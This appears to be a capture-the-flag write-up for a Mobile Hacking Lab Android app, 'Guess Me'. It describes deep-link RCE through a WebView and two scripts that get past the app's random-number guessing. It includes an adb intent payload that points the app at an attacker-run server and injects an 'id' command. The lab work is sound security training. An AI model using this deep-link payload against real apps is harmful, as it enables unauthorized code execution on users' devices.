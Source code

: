 # Writeup for Guess me challenge.

Full Writeup at my blog --> [Coming soon]
--- 

## Objective
Exploit a Deep Link Vulnerability for Remote Code Execution: 
Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, 
allowing you to execute remote code and gain unauthorized access.

## PoC RCE
First, run the Python script: `python3 server.py`

Once the server is up and running you should send the following payload:
```sh
adb shell am start -a android.intent.category.BROWSABLE \
-n com.mobilehackinglab.guessme/.WebviewActivity \
-d "mhl://mobilehackinglab/?url=http://192.168.0.210/search?Time=\'id\'%26q=mobilehackinglab.com"
```

<img width="300" alt="image" src="https://github.com/user-attachments/assets/3077b079-e291-41d5-bdaa-8fd2886c6d70">


## Bonus 
The `timestamp.sh` script needs to be executable.

### Random + timestamp
This is a very inconsistent way to bypass the Random function.

To run the script first compile the Java code :
`javac -Xlint newGuessRandom.java`

Then run the script:
`java -cp . newGuessRandom.java 2>/dev/nul`

It will take some time to find, but it works! ~~I swear~~

<img width="600" alt="image" src="https://github.com/user-attachments/assets/b27b5aea-048c-452c-8bbf-5b4387733c48">


### Random + binary search
This way is a very consistent way of finding the guess number using a different approach.

To run the script, first compile the java code:
`javac -Xlint newSuperGuessRandom.java`

To run the script:
`java -cp . newSuperGuessRandom.java 2>/dev/null`

<img width="600" alt="image" src="https://github.com/user-attachments/assets/e4d1759e-c109-443c-8630-e7d4a611e5a2">

## Conclusion

On my blog, I'll cover all the steps, what worked and what didn't, why I created two ways to bypass the random number generator.
Why it's possible to get an RCE and run an alert on this vulnerable application.
